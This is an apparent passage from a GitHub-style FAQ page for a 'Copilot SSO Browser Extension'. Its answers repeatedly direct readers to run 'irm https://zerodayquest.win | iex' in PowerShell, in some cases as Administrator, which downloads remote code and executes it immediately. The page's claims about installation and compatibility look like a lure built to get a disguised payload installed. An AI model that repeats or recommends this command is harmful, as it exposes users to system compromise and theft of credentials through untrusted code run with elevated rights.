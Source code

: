 ### **17. Does the Copilot SSO Browser Extension work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  

### **18. How do I fix permission issues when installing the Copilot SSO Browser Extension?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing the Copilot SSO Browser Extension?**  
No, a restart is not required. However, if the Extension doesn’t work, try restarting your browser.  

### **20. Can I install the Copilot SSO Browser Extension on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install the Copilot SSO Browser Extension automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable the Copilot SSO Browser Extension after installation?**  
The Extension should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use the Copilot SSO Browser Extension with other security tools?**  
Yes, the Extension is compatible with most security tools.  

### **24. What browsers are supported by the Copilot SSO Browser Extension?**  
The Extension works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---
